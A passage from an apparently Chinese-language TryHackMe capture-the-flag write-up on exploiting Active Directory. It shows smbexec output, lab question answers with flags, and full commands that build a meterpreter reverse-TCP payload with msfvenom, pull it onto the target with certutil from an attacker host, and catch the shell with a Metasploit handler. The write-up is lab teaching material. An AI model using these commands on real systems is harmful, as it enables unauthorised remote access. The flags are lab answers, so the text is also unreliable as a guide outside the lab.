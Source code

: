 2022/05/01  15:49    <DIR>          .
2022/05/01  15:49    <DIR>          ..
2022/05/01  15:50                25 flag3.txt
               1 File(s)             25 bytes
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
               2 Dir(s)  50�903�248�896 bytes free


c:\Users\Administrator.ZA\Desktop> type flag3.txt
THM{Printing.Some.Shellz}

```


> How often (in days) are the passwords of Windows machine accounts rotated by default?

> 30

> What should not be enforced if we want to relay an SMB authentication attempt?

> SMB Signing

> What is the value of the flag stored in the Desktop directory of the Administrator.ZA user on THMSERVER1 (flag3.txt)?

> THM{Printing.Some.Shellz}


# Task 5  Exploiting AD Users

在THMSERVER1的trevor.local用户文档里找到一个keepass文件
```
c:\Users\t1_trevor.jones\Documents> dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of c:\Users\t1_trevor.jones\Documents

2022/04/30  16:36    <DIR>          .
2022/04/30  16:36    <DIR>          ..
2022/04/30  16:36             2�190 PasswordDatabase.kdbx

```

编译一个meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.57.67 LPORT="4444" -f exe -o shell.exe
```


传到靶机
```
certutil.exe -urlcache -split -f http://10.50.57.67/shell.exe
```

监听
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.57.67; set LPORT '4444'; exploit"
```

执行触发，收到rev shell
```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.57.67; set LPORT '4444'; exploit"

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt